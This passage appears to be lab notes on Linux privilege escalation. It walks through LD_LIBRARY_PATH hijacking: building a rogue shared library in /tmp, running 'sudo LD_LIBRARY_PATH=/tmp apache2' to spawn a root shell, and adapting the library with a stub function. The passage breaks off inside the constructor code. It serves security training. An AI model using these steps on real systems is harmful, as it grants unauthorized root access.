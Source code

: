 1. ruid : real user ID
2. euid : effective user ID
3. suid : set-user-ID 

#### Same thing for setguid
```
int setresuid(uid_t ruid, uid_t euid, uid_t suid);
int setresgid(gid_t rgid, gid_t egid, gid_t sgid);
```
Run **ldd** against the **apache2** program file to see which **shared libraries** are used by the program:
```
$ ldd /usr/sbin/apache2
```
Create a **shared object** with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:
```
$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```
Run **apache2** using **sudo**, while settings the **LD_LIBRARY_PATH** environment variable to **/tmp (where we output the compiled shared object)**:
```
$ sudo LD_LIBRARY_PATH=/tmp apache2
```
#### A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.

#### Remember to exit out of the root shell before continuing!

### Now lets try renaming /tmp/libcrypt.so.1 to /tmp/libpcre.so.3 used by apache2 and re-run apache2 using sudo again and lets see if gives us the root shell.

```diff
$ ldd /usr/sbin/apache2

	linux-vdso.so.1 =>  (0x00007fffdc5a4000)
+ libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007fbae5d1a000)
	libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007fbae5af6000)
	libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007fbae58bc000)
	libpthread.so.0 => /lib/libpthread.so.0 (0x00007fbae56a0000)
	libc.so.6 => /lib/libc.so.6 (0x00007fbae5334000)
	libuuid.so.1 => /lib/libuuid.so.1 (0x00007fbae512f000)
	librt.so.1 => /lib/librt.so.1 (0x00007fbae4f27000)
+ libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007fbae4cf0000)
	libdl.so.2 => /lib/libdl.so.2 (0x00007fbae4aeb000)
	libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007fbae48c3000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fbae61d7000)

+ [+] MORE or less every shared library will work, but in some cases somw editing needed to be done in codes

+$ echo "void pcre_free(){}" >> tools/sudo/library_path.c   
$ cat tools/sudo/library_path.c 
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
```